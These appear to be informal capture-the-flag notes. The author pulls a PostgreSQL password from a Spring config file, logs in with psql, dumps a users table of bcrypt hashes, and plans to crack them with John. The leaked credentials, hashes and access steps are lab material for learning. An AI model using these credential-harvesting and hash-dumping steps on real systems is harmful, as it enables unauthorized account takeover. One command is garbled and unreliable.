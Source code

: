Maybe with this password we can get inside of the machine via ssh

spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR 

so.. no.

we need to get inside postgress, with this command

```
psql "postgresql://$DB_USER:$DB_PWD@$DB_SERVER/$DB_NAME"
```

this is the way to get in
```
psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"
```


https://www.commandprompt.com/education/postgresql-list-all-tables/#:~:text=PostgreSQL%20provides%20a%20%E2%80%9C%5Cdt%E2%80%9D,size%2C%20access%20method%2C%20etc.

This is quite different than MYSQL to see the databases you must use 
```
\ł
```
to select a database 
```
\c databasename
```
to see the tables
```
\dt
```
like "less" on linux
```
\dt+ is like "less" on linux
```




This is without ('')... because it doesnt work !!!!!
```
SELECT * FROM users ;
```

So finally we find this ;

Now we have to replace it with another password... the admin i think
```
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Another way is cracking the password with John


I did two files adminhash.txt and kandersonhash.txt

